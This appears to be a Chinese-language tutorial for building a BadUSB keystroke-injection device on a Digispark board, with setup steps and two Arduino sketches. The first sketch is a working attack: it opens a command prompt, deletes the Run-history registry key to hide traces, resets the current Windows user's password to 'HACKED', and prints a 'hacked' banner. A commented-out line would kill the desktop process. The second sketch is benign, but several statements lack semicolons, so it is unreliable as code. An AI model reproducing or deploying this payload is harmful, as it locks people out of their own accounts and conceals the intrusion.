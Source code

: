 ## **环境说明**
#### 准备工作
* Windows 10 1909版本（Windows系统）
* BadUSB开发板(硬件)
* USB数据线
* [开发工具(IDE)](https://www.arduino.cc/en/Main/Software)
* [辅助键值工具Automator_2.0.1](https://support.apple.com/zh-cn/HT2488)
* [驱动程序Digistump Drivers](http://www.pudn.com/Download/item/id/3648236.html)
* 程序文件sketch_aug24a
* [工程文件包下载](http://www.pudn.com/Download/item/id/3969657.html)

## **步骤说明**
**1.下载arduino-1.8.9并添加badusb库，打开ArduinoIDE后，点击文件-->首选项，开发板的管理器网址如下：**
```
http://digistump.com/package_digistump_index.json
```
![设置网址](../img/iot_img/bs1.png)

**2. 安装Digistump Drivers驱动，运行DPinst64.exe，默认下一步即可**

**3. 在Arduino中，依次点击工具-->开发板-->开发板管理器，加载完成后，在输入框中输入digispark,然后点击安装（注：需要先将badusb插入）**
![配置环境](../img/iot_img/bs2.png)

**4. 再次点击工具-->开发板 -->Digispark(Default-16.5mhz)**
* 主要程序文件如下：

文件名为sketch_aug24a.ino
```
#include<Keyboard.h>
void setup() {                                //初始化
  Keyboard.begin();                           //开始键盘通讯
  delay(5000);                                //延时5秒
  Keyboard.press(KEY_CAPS_LOCK);              //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK);            //释放大写键
  delay(200);
  Keyboard.press(KEY_LEFT_GUI);               //win键
  delay(200);
  Keyboard.press('r');                        //r键
  delay(200);                                 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.println("cmd.exe");                //打开命令行窗口
  delay(200);
  Keyboard.println("CMD.EXE /C REG DELETE hkcu\\sOFTWARE\\mICROSOFT\\wINDOWS\\cURRENTvERSION\\eXPLORER\\rUNmru /F&NET USER %USERNAME% HACKED");//修改密码HACKED
  delay(200);
  Keyboard.println("color a");                //更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo .............. >> hacked.txt");                                   //向hacked.txt写内容
  delay(200);
  Keyboard.println("echo ## ## ### ###### ## ## ######## ######## >> hacked.txt");         //向hacked.txt写内容
  delay(200);
  Keyboard.println("color 0");                                                             //更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## ## >> hacked.txt");                 //向hacked.txt写内容
  delay(200);
  Keyboard.println("echo ................. >> hacked.txt");                                //向hacked.txt写内容
  delay(200);
  Keyboard.println("color c");                                                             //更改命令行颜色（红色）
  delay(200);
  Keyboard.println("type hacked.txt");                                                     //将hacked.txt文件内容打印在cmd
  delay(200);
  //Keyboard.println("taskkill /f /im explorer.exe");                                        //删除桌面进程(all)
  //delay(200);
  Keyboard.end();//结束键盘通讯
}
void loop()//循环
{
}
```
文件名为sketch_aug25a.ino
```
#include<Keyboard.h>    //引用键盘通信库
void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();                         //开始键盘通信
  delay(1000);                              //延迟1秒
  Keyboard.press(KEY_CAPS_LOCK);            //开启大写锁定键
  Keyboard.release(KEY_CAPS_LOCK);          //松开大写键
  delay(200);                               //延迟0.2秒
  Keyboard.press(KEY_LEFT_GUI);             //按下win键
  delay(200);                               //延迟0.2秒
  Keyboard.press('r');                      //按下R键
  delay(200);                               //延迟0.2秒
  Keyboard.release(KEY_LEFT_GUI);           //松开win键
  Keyboard.release('r');                    //松开R键
  delay(500);                               //延迟0.5秒
  Keyboard.println("cmd")                   //输入cmd字符并换行
  delay(200);                               //延迟0.2秒
  Keyboard.press(KEY_ENTER);               //回车，打开命令提示符
  Keyboard.release(KEY_ENTER);             //松开回车
  delay(500);                               //延迟0.5秒
  Keyboard.println("echo hello world")      //输入echo hello world并换行
  delay(50);                                //延迟0.05秒
  Keyboard.press(KEY_ENTER);               //回车，打开命令提示符
  Keyboard.release(KEY_ENTER);             //松开回车
  delay(200);                               //延迟0.2秒
  Keyboard.press(KEY_CAPS_LOCK);            //开启大写锁定键
  Keyboard.release(KEY_CAPS_LOCK);          //松开大写键
  Keyboard.end()                            //结束键盘通信
}

void loop() {
  // put your main code here, to run repeatedly:
}
```
Automator_2.0.1是一款键值辅助工具，在设置按键时可以借用此工具

**5. 烧录文件到badUSB中**
* 点击上传按钮，当下面提示插入USB时，将baduse固件插入电脑，烧录完成立马拔下usb，不然烧录的程序会很快执行

![烧录过程](../img/iot_img/bs3.png)

**6. 测试**
* 将烧录好的USB插入电脑，查看是否实现代码中的功能
![测试](../img/iot_img/bs4.png)
#### 注意事项